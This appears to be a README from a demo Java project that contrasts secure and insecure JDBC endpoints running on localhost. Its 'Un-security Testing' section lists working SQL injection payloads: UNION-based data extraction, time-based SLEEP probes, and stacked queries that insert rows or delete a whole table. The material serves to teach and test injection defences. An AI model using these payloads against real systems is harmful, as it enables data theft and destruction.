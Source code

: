 # Security Testing
## JDBC Update
- http://localhost:8086/jdbc/security/update?id=c-1
## JDBC Single
- http://localhost:8086/jdbc/security/single?id=c-1
## JDBC List
- http://localhost:8086/jdbc/security/list?title=DEV
## Template Single
- http://localhost:8086/template/security/single?id=c-1
## Template List
- http://localhost:8086/template/security/list?title=DEV

# Un-security Testing
## JDBC Update
- http://localhost:8086/jdbc/un-security/update?id=c-1';INSERT INTO CUSTOMER(ID, NAME, TITLE) VALUES ('c-8','Roc','QA')-- ;[allowMultiQueries=true]
## JDBC Single
- http://localhost:8086/jdbc/un-security/single?id=c-1' AND 'a'='a
- http://localhost:8086/jdbc/un-security/single?id=c-1' OR 1=1 LIMIT 3,1-- ;
- http://localhost:8086/jdbc/un-security/single?id=NOO' UNION SELECT * FROM PRODUCT limit 3,1-- ;
- http://localhost:8086/jdbc/un-security/single?id=NOO' UNION SELECT DATABASE(), VERSION(), USER()-- ;
- http://localhost:8086/jdbc/un-security/single?id=NOO' OR IF(1>0, SLEEP(10), 1)-- ;
## JDBC List
- http://localhost:8086/jdbc/un-security/list?title=DEV' OR 'a'='a
- http://localhost:8086/jdbc/un-security/list?title=NOO' LIMIT 0,100 -- ;
- http://localhost:8086/jdbc/un-security/list?title=DEV' UNION SELECT * FROM PRODUCT-- ;
- http://localhost:8086/jdbc/un-security/list?title=DEV';DELETE FROM CUSTOMER-- ;[allowMultiQueries=true]
- http://localhost:8086/jdbc/un-security/list?title=DEV';INSERT INTO CUSTOMER(ID, NAME, TITLE) VALUES ('c-7','Ady','QA')-- ;[allowMultiQueries=true]
- http://localhost:8086/jdbc/un-security/list?title=DEV';INSERT INTO PRODUCT(ID, NAME, TITLE) VALUES ('p-7','Vivo X200','Phone')-- ;[allowMultiQueries=true]

# How to execute multiple queries in a single statement in java
- spring.datasource.url=jdbc:mysql://host/database?allowMultiQueries=true